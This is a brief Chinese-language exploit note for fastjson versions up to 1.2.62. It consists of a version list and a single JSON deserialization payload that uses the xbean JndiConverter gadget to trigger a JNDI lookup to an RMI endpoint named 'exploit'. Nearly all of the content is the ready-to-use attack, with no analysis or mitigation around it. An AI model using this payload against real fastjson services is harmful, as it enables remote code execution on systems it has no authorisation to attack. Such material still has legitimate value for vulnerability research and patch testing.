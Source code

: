 影响版本：  
- fastjson<=1.2.62

exp：
```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1098/exploit"}"
```
